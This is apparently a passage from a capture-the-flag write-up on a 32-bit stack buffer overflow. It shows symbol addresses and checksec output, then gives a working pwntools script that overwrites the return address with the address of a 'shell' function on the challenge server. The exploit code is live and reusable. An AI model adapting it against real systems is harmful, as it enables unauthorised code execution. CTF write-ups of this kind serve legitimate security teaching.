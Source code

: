 ```
0804c038 D __TMC_END__
08049351 T __x86.get_pc_thunk.bp
08049110 T __x86.get_pc_thunk.bx
```

More precisely :

```
...
080491d6 T shell
080490c0 T _start
...
```

Now that we have th information we needed, we can create our script that exploit the vulnerability in the source code. we will be using `pwn` tools for that : 

 - First, get the byte version of the address found of the `shell()` function (we can do that manually or using pwn tools) :

```python
# Python 3.10.8 (main, dec 24 2022, 10:07:16) [GCC 12.2.0] on linux
# Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x080491d6)
b'\xd6\x91\x04\x08'
```

 - You may need check the binary in case of a security enabling or ELF format not corresponding to your script :
   - Check for the file ELF (EXEC) (Executable and Linkable Format) :

```
└─$ file chall
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
```

   - Don't forget also to check the security of the binary given :

```
└─$ checksec chall 
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can create a python script for that : 

```python
#! /usr/bin/python3

from pwn import *

HOST = 'pwn.challs.ctf.shellmates.club'
PORT = '1405'

p = remote(HOST, PORT)

p.sendlineafter(b'Hola StackSmasher : ', b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaaka\xd6\x91\x04\x08')

p.interactive()
```
